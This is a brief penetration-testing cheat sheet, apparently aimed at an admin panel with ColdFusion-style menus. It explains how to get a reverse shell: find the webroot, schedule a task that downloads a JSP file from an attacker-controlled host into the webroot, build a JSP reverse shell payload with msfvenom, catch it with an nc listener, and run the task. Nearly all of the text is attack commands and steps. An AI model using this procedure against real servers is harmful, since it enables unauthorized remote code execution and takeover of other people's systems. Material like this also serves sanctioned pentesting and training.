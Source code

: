 ### Get path to webroot
```
Server Settings > Mappings
```

### Get reverse shell using scheduled task
```
Debugging & Logging > Scheduled Tasks > Schedule New Task
```

### Insert parameters
```
Task Name: <name>
URL: http://<lhost>/<file>.jsp
Check: Save output to a file
File: <path>\<file>.jsp
Submit
```

### Generate reverse shell
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=<lhost> lport=<lport> -f raw > <file>.jsp
```

### Start listener
```
nc -lnvp <lport>
```

### Start task
```
Actions > Run Scheduled Task
```

